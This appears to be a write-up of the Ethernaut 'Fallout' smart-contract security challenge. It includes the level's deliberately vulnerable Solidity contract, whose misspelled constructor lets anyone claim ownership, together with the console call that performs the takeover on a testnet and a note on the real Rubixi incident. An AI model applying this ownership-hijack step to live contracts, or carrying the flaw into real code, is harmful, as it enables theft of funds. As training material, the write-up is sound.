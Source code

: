 ## Ethernaut-solution
---

### 2.FallOut

Claim ownership of the contract below to complete this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender; //msg is global variable represent transaction. sender is transaction.
    //everyone can be owner.(changeable internall state of owner)
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

await contract.owner()
```
'0x0000000000000000000000000000000000000000'
```
player
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

contract.abi
```
(6) [{…}, {…}, {…}, {…}, {…}, {…}]
```
//ABIをよくみるとfunctionがFalloutじゃなくて"Fal1out"になっているのがわかる。これではcontractは効力がない。
```
0: {inputs: Array(0), name: 'Fal1out', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
1: {inputs: Array(0), name: 'allocate', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
2: {inputs: Array(1), name: 'allocatorBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}
3: {inputs: Array(0), name: 'collectAllocations', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
4: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}
5: {inputs: Array(1), name: 'sendAllocation', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
length: 6
[[Prototype]]: Array(0)
```

//contract作成。everybody is gonna be owner! 

```
contract.Fal1out()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
addListener: ƒ (t,e,r)
emit: ƒ (t,e,r,n,o,a)
listeners: ƒ (t)
off: ƒ (t,e,r,n)
on: ƒ (t,e,r)
once: ƒ (t,e,r)
removeAllListeners: ƒ (t)
removeListener: ƒ (t,e,r,n)
_events: o {}
[[Prototype]]: Promise
[[PromiseState]]: "pending"
[[PromiseResult]]: undefined
```
```
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 <br>
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c
```

```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

player
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

---
That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```
This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.